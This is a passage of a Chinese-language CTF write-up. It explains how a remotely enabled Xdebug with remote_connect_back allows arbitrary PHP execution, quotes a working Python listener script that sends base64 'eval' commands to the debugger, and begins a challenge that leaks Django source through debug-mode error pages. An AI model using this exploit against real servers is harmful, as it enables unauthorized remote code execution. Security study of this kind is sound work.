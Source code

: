 ![xdebug3](http://momomoxiaoxi.com/img/post/whctf/xdebug3.png)



此外，当没有phpinfo，但是远程服务器还是开启了XDEBUG的情况下，我们也可以通过其进行任意命令执行。这个思路可以参考ricterz.me写的[博客](https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface)，很有意思。而且，ricterz.me的思路绕过了上文的3、4限制，是一个很好的技巧，值得学习！

比如你可以通过一个简单的curl命令测试远程服务器是否存在XDEBUG调试的漏洞。

![xdebug2](http://momomoxiaoxi.com/img/post/whctf/xdebug2.png)

当 `X-Forwarded-For` 地址的 9000 端口收到如上，就可以确定开启了 Xdebug，并且开启了 `xdebug.remote_connect_back`。

ricter还写了一个脚本用来利用这种配置漏洞：

```python
#!/usr/bin/python2
import socket

ip_port = ('0.0.0.0',9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

    data = raw_input('>> ')
    conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```

运行情况如下，可以进行任意PHP代码执行。

![xdebug](http://momomoxiaoxi.com/img/post/whctf/xdebug.png)

ricterz还分析了xdebug的其他一些可利用的命令。具体请大家阅读他的[博客](https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface)。

## CAT

http://120.55.42.243:20010/index.php?url=%a0

django调试模式打开了，输入%a0之类的字符可以获得报错信息，拿到一部分源码

```python
/opt/api/dnsapi/views.py in wrapper
       # 合并 requests.FILES 和 requests.POST
       for k, v in request.FILES.items():
           if isinstance(v, InMemoryUploadedFile):
               v = v.read()
           request.FILES[k] = v
       request.POST.update(request.FILES)
       return f(*args, **kwargs)
...
   return wrapper
@process_request
def ping(request):
▶ Local vars
/opt/api/dnsapi/views.py in ping
   return wrapper
@process_request
def ping(request):
   # 转义
   data = request.POST.get('url')
   data = escape(data)
...
```